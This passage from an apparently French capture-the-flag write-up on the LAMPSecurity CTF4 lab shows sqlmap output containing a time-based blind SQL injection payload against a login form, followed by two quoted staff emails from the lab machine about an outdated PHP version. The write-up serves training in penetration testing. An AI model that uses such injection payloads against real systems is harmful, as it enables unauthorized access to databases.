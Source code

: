 ```console
    Payload: username=test' AND (SELECT * FROM (SELECT(SLEEP(5)))oXsY)-- RKmF&password=abc

--snip--
[01:11:11] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Fedora 5 (Bordeaux)
web application technology: Apache 2.2.0, PHP 5.1.2
back-end DBMS: MySQL >= 4.1
```

### Bonus n°3 : Analyse des e-mails de chaque utilisateur

Premier mail : James Durbin informe Don Stevens que RoundCube n'a pu être installé en raison d'une version trop ancienne (et sans doute vulnérable) de PHP.

```
Date: Mon, 9 Mar 2009 10:46:56 -0400 (EDT)
Subject: Server setup
From: "James Durbin" <jdurbin@ctf4.sas.upenn.edu>
To: "Don Stevens" <dstevens@ctf4.sas.upenn.edu>

Hey Don,

I think I got the server pretty much set up.  I just have to make some
more adjustments.  Unfortunately I couldn't get RoundCube installed
because our version of PHP is too low.  I'll send more updates as I make
them.

-- 
James Durbin
Webmaster
Prof. Ehks Data Research Center
```

Deuxième mail : Don Stevens annonce le lancement de la plate-forme, malgré de futurs patchs à venir.

```
Date: Mon, 9 Mar 2009 10:52:25 -0400 (EDT)
Subject: Server setup
From: "Don Stevens" <dstevens@ctf4.sas.upenn.edu>
To: users@ctf4.sas.upenn.edu

Hello all,

the server is up and running now and should be able to support most of
our needs.  Don and I are still working on installing a few more patches
and configuring things.  Let us know if you have any problems.  Thanks!

-- 
Don Stevens
Sr. Unix Admin
Prof. Ehks Data Research Center
```
